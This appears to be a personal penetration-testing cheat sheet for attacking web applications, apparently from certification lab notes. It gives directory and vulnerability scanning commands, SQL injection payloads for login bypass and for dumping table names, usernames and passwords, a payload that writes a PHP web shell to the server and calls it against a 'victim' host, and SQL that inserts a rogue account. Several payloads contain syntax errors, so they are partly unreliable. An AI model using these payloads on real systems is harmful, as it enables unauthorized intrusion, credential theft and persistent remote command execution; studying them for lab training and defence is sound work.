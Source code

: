 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/enumerate_web_apps.md">Top of Page</a> |
  <a href="/CheatSheets/enumerate_web_apps.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Web Apps
## Table of Contents
* [Enumerate](#enumerate)
* [Exploit](#exploit)
* [Explore](#explore)
* [Effect](#effect)

## Enumerate
```bash
dirb $TARGET -r -z10 # recursive; wait 10 milliseconds between delays
```
```bash
sudo apt install dirsearch
dirsearch -u $TARGET -o /home/victor/pwk/labs/$TARGET/scans/$TARGET-dirsearch --format=simple
```
```bash
nikto -h $TARGET -maxtime=30s -o scans/$TARGET-nikto-30seconds.txt
nikto -h $TARGET -T 2 # scan for misconfiguration vulnerabilities
nikto -h $TARGET -T 9 # scan for SQL injection vulnerabilities
```

Finding SQL Injection Vulnerabilities
```bash
` # single-quote
# the resulting error may indicate the underlying web server software, database software, and server OS 
```

## Exploit
SQL Comments
```
# MySQL, MariaDB
-- Oracle
/* Oracle
*/ Oracle
```

SQL Injection Attacks
```
# bypass auth (put SQLi in the username field; username might be required so supply that at least)
victor' or 1=1; -- 

# bypass auth (put SQLi in the username field; the LIMIT keyword might be necessary for some databases)
victor' or 1=1 LIMIT=1; -- 

' ORDER BY 1 # sort results based on the values of the first column

' UNION ALL SELECT 1,2,3 # return all rows 
' UNION ALL SELECT 1,2 @@version # return the database version
' UNION ALL SELECT 1,2 user() # return the acct running the database

# return all table names
' UNION ALL SELECT 1,2 table_name FROM information_schema.tables 

# return all column names
' UNION ALL SELECT 1,2 column_name FROM information_schema.columns WHERE table_name = 'usertbl' 

# return records from users table; put users in column 2, password in column 3 of output
' UNION ALL SELECT 1, username, password FROM usertbl 

# invoke PHP and echo PHP code into a file
' UNION ALL SELECT 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE '/var/www/html/webshell.php'
firefox http://victim.edu/webshell.php?cmd=whoami # navigate to and use the above LFI
```

## Explore
SQL Database Queries
```sql
SELECT * FROM targetdb.usertbl; # database.table
USE targetdb;
SELECT * FROM usertbl;
```

## Effect
Add a new user to a SQL database
```sql
INSERT INTO targetdb.usertbl(username, password) VALUES ('victor','please');
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/enumerate_web_apps.md">Top of Page</a> |
  <a href="/CheatSheets/enumerate_web_apps.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
